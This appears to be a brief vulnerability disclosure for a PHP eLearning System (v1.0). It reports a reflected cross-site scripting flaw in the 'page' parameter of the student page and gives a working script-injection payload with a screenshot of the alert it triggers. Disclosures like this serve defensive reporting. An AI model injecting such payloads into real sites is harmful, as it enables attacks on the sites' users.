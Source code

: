 # eLearning System – reflected XSS on (elearning/student/?page=XX) 
# Vendor Homepage:
https://www.sourcecodester.com/php/14787/elearning-system-using-phpmysqli-source-code.html 
Version:V1.0
Tested on: PHP, Apache, MySQL
# Affected Page:
elearning/student/?page=subject 
On this page,page parameter is vulnerable to reflected XSS Attack 
Proof of vulnerability:
# Visit this page：
http://localhost/ elearning/student/?page=subject
# Payload：
</script><script>alert(1)</script>
# Trigger popup：
<img width="416" alt="image" src="https://github.com/qqqyc/vuln/assets/53200267/054109f3-ec13-4ca6-a1a7-dbacdca590c1">
